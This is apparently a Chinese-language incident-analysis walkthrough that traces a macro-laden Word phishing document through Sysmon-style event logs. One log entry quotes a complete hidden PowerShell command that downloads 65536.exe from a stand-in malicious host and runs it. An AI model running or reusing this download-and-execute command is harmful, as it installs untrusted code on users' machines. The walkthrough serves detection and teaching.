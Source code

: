 > IE浏览器下载了一个名为6E713D2A.doc的文件。请注意：日志有时可能会显示为.tmp文件，这是因为有些事件在日志记录时，还未下载未完成。

```
event_data.Image: C:\Program Files (x86)\Internet Explorer\IEXPLORE.EXE
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

> 用户打开了6E713D2A.doc文件

```
event_data.Image: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

> 带有宏的Word恶意文档被启动，并运行了一个powershell命令，该命令正在尝试从http://Malicioussite.su/z3FRJz下载一个名为65536.exe的可执行文件。

```
event_data.ParentImage: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.ParentCommandLine: “C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE” -Embedding
event_data.Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
event_data.CommandLine: powershell -WindowStyle Hidden $webclient = new-object System.Net.WebClient;$myurls = ‘http://Malicioussite.su/z3FRJz’.Split(‘,’);$path = $env:temp + ‘65536.exe’;foreach($myurl in $myurls){try{$webclient.DownloadFile($myurl.ToString(), $path);Start-Process $path;break;}catch{}}
event_data.User: PhisedUser
```

> Powershell将65536.exe下载到C:\Users\PhisedUser\AppData\Local\Temp

```
event_id: 11
event_data.Image: C:\Windows\SysWOW64\Windows\PowerShell\v1.0\powershell.exe
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Temp\65536.exe
```
